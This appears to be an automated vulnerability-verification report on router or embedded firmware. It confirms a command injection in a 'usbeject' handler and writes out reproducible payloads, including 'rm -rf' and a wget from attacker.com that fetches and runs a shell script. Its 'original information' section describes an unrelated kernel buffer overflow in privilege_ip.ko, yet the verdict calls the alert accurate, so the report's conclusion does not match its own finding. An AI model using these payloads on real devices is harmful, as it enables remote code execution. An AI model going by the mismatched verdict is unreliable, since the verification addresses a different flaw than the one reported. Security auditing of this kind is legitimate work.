 ## 验证结论

- **描述准确性：** `accurate`
- **是否为真实漏洞：** `True`
- **风险级别：** `High`
- **详细原因：** 警报描述准确基于反编译代码验证：函数 fcn.0000a6e8 使用 fcn.00009b30 提取 'dev_name' 参数（来自用户输入），未经过滤或转义即通过 snprintf 嵌入到固定字符串 'cfm post netctrl 51?op=3,string_info=%s' 中，并最终由 system 执行。攻击者模型为已认证用户（非 root）通过 HTTP 请求（如 POST 或 GET）调用 'usbeject' 命令。输入可控性：'dev_name' 参数由用户完全控制。路径可达性：只要 'dev_name' 非空，代码就会执行 snprintf 和 system 调用。实际影响：通过注入命令分隔符（如分号），攻击者可执行任意命令，可能导致权限提升或系统破坏。漏洞可利用性验证：snprintf 缓冲区限制为 0x800 字节，但命令注入仍可行。可重现攻击载荷：攻击者发送 HTTP 请求到 'usbeject' 端点，参数 'dev_name' 设置为 '; rm -rf /tmp/test' 或 '; /bin/sh -c "wget http://attacker.com/shell.sh -O /tmp/shell.sh && chmod +x /tmp/shell.sh && /tmp/shell.sh"'，从而触发任意命令执行。因此，该漏洞构成真实高风险漏洞。

## 验证指标

- **验证时长：** 183.89 秒
- **Token 使用量：** 427288

---

## 原始信息

- **文件/目录路径：** `lib/modules/privilege_ip.ko`
- **位置：** `privilege_ip.ko:0x08000228 (fcn.080001e8) and 0x08000398 (pi_rcv_msg)`
- **描述：** A buffer overflow vulnerability exists in the 'privilege_ip.ko' kernel module due to lack of bounds checking when adding entries to the global array 'g_k_privi_ip_item'. The function 'fcn.080001e8' (called from 'pi_rcv_msg' with arg1=0) uses memcpy to copy 8 bytes of user-controlled data from message parameters into the array. The array size is fixed at 60 elements (480 bytes), but the count stored at offset 0x1e0 in the global structure is incremented without checking against the array limit. An attacker can send more than 60 messages of type 0 to overflow the array, corrupting adjacent kernel memory. This can lead to kernel crash or privilege escalation by overwriting critical data structures. The vulnerability is triggered when processing messages via 'pi_rcv_msg', which is likely registered as a message handler during module initialization.
- **代码片段：**
  ```
  In fcn.080001e8:
  0x08000228: add r0, r5, r7, lsl 3  ; r5 points to g_k_privi_ip_item, r7 is the current index
  0x0800022c: bl memcpy        ; copies 8 bytes from r6 (user data) to the array
  0x08000298: str r2, [r3, 0x1e0]  ; increments the count without bounds check
  
  In pi_rcv_msg:
  0x080003e0: ldr r6, [r5], 4   ; loads message type
  0x0800041c: bl fcn.080001e8   ; called when type is 0
  0x08000430: bl fcn.080001e8   ; called for other types
  ```
- **备注：** The vulnerability is highly exploitable as it allows controlled kernel memory corruption. The attack requires sending multiple messages to 'pi_rcv_msg', which must be accessible to the attacker. Further verification is needed on how 'pi_rcv_msg' is invoked (e.g., via IPC or sysfs), but the code logic confirms the overflow. Exploitation could lead to full system compromise. Recommended to test in a controlled environment and patch by adding bounds checks in fcn.080001e8.
